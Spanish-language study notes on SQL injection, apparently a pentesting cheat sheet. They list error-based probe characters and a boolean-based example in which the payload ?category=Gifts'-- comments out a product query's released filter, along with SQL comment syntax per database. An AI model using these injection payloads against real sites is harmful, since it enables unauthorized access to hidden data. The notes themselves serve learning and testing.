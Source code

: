 ![[Pasted image 20221227152535.png]]

## SQLi ERROR BASED

```sql
#ERROR BASED

'
%27
"
-1
%22
#
%23
;
%3B
)
Wildcard (*)
%%2727
%25%27
```

## SQLi BOOLEAN BASED

### Recuperando datos ocultos

Imginemos que es una pagina de compras donde muestra su catalogo de venta por categorias y realiza la siguiente consulta:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

El parametro `released` indica que son productos ya en el mercado y podemos suponer que el valor `0` puede mostrar productos ineditos. El unico dato de entrada desde la pagina es **categoria**. Podemos mandar lo siguiente a catergoria:

```sql
?category=Gifts'--
```

Reemplaazndo esto es la consulta:

```sql
SELECT * FROM products WHERE category = 'Gifts'-- AND released = 1
```

Para comentar una linea en una consulta SQL depende del gestor de base de datos paro normalmente es con:

- **--**
- **-- -**
- **#**
- **\/\*QUERY\*\\**
